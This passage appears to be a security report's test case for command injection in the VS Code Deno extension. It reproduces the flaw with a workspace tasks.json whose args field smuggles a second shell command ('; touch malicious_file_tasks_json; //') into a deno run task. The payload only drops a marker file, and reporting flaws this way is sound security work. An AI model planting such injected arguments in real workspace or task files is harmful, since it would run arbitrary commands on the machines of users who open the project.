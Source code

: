- Security Test Case:
    - Step 1: Create a new directory named `malicious-deno-workspace-tasks`.
    - Step 2: Inside `malicious-deno-workspace-tasks`, create a folder named `.vscode`.
    - Step 3: Inside `.vscode`, create a file named `tasks.json` with the malicious task definition from the description above:
        ```json
        {
          "version": "2.0.0",
          "tasks": [
            {
              "type": "deno",
              "command": "run",
              "args": [
                "-A",
                "index.ts",
                "; touch malicious_file_tasks_json; //"
              ],
              "label": "Malicious Task"
            }
          ]
        }
        ```
    - Step 4: Inside `malicious-deno-workspace-tasks`, create an empty file named `index.ts`.
    - Step 5: Open VS Code and open the `malicious-deno-workspace-tasks` folder.
    - Step 6: Ensure the Deno extension is enabled for this workspace.
    - Step 7: Run the malicious task by opening the command palette (Ctrl+Shift+P) and typing "Tasks: Run Task". Select "deno: Malicious Task".
    - Step 8: After the task execution completes, check the `malicious-deno-workspace-tasks` directory. If the vulnerability is present, a file named `malicious_file_tasks_json` will have been created, indicating successful command injection.
